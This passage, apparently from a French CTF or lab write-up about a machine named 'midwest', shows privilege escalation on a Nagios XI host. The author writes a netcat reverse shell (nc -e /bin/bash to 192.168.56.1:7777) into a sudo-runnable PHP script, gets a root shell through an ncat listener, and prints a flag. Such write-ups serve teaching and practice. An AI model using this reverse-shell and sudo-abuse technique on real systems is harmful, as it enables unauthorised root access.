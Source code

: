 Aucun accès en écriture... mais qu'en est-il des scripts PHP exécutés par `/usr/bin/php` ?

```shellsession
nagios@midwest:~$ ls -al /usr/local/nagiosxi/scripts/send_to_nls.php
-rwxr-xr-x 1 nagios nagios 1534 Jan 22  2021 /usr/local/nagiosxi/scripts/send_to_nls.php
```

Bingo ! Je rajoute la ligne suivante :

```php
system("/usr/bin/nc -e /bin/bash 192.168.56.1 7777");
```

Et j'exécute :

```shellsession
nagios@midwest:/usr/local/nagios/libexec$ sudo /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php yop
```

Cette fois le shell est root, mission accomplie !

```shellsession
$ ncat -l  -p 7777 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
Ncat: Connection from 192.168.56.105.
Ncat: Connection from 192.168.56.105:47878.
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
root.txt
cat root.txt
0d599f0ec05c3bda8c3b8a68c32a1b47
```

*Publié le 16 février 2023*
